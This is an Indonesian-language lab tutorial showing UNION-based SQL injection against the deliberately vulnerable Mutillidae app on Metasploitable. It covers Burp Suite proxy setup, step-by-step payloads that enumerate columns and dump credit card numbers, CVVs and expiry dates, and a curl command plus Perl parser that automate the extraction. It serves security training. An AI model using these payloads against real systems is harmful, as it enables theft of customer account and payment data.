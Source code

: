 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel accounts dan credit_cards. 2 tabel tersebut akan kita union kan.
Union adalah operasi penggabungan lebih dari satu hasil SELECT dalam SQL

* **Step 2** : Setting proxy pada firefox dengan membuka pengaturan network melalui open menu --&gt; Preferences -&gt; Advanced --&gt; Network

* **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

* **Step 4** : Buka burpsuite, dengan cara pilih Applications --&gt; Web Application Analysis --&gt; burpsuite  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)

* **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next   
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)

* **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)

* **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --&gt; Options  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)

* **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --&gt; Intercept.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)

### \# SQL Injection \(Union Example \#1\)

* **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Masukkan syntax sql `' union select null --` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)

* **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

* **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null --`.

* **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null --` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

* **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null --` pada textbox name. Dan kemudian tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

* **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

* **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)

* **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.

  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

* **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit\_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)

* **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration.   
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)

### \# Curl Action

* **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection \(Union Example \#1\), kemudian catat/copas raw header request.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

* **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack\_cookies.txt  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)

* **Step 3** : Jalankan perintah   
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'`   
  dan lihat hasilnya. Hasilnya adalah data hasil sql injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_23_28.png)

### \# Perl Parser

* **Step 1** : Download lesson8.pl pada link berikut [http://www.computersecuritystudent.com/SECURITY\_TOOLS/MUTILLIDAE/MUTILLIDAE\_2511/lesson8/lesson8.pl.TXT](/http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT)
* **Step 2** : Ganti nama lesson8.pl.TXT menjadi lesson8.pl dan ubah permission menjadi `rwx------` atau 700.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_39_29.png)
* **Step 3** : Jalankan perintah 
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username="  > lesson8.txt`
* **Step 4** : Setelah menjalankan perintah tersebut maka hasil perintah pada **Step 3** disimpan pada file lesson8.txt.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_42_37.png)
* **Step 5** : Jalankan file lesson8.pl dan lihat hasilnya.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_43_37.png)



